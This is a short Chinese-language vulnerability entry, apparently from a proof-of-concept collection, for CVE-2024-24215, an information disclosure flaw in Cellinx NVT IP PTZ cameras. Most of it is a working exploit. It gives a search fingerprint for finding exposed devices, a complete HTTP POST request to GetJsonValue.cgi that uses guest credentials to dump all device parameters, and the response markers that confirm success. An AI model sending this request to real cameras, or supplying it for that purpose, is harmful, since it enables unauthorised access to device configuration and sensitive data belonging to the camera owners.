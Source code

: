 ﻿# Cellinx NVT Web Server 信息泄露漏洞

> 更新时间：2024-02-20

> 漏洞编号：CVE-2024-24215

> 漏洞说明：Cellinx NVT IP PTZ 是韩国Cellinx公司的一个摄像机设备。Cellinx NVT 摄像机 GetJsonValue.cgi 接口处存在信息泄露漏洞，攻击者可以利用此漏洞获取敏感信息。

> 漏洞特征：body="local/NVT-string.js" 

> 验证脚本：HTTP

```
POST /cgi-bin/GetJsonValue.cgi?TYPE=json HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
X-Requested-With: XMLHttpRequest
Connection: close

 {"jsonData":{"username":"guest","password":"guest","file":"param","data":"All"}}
```

> 响应代码特征：200

> 响应内容特征：ProductCode

> 上传文件定位：


> 验证文件来源：Cellinx NVT Web Server 信息泄露漏洞.poc
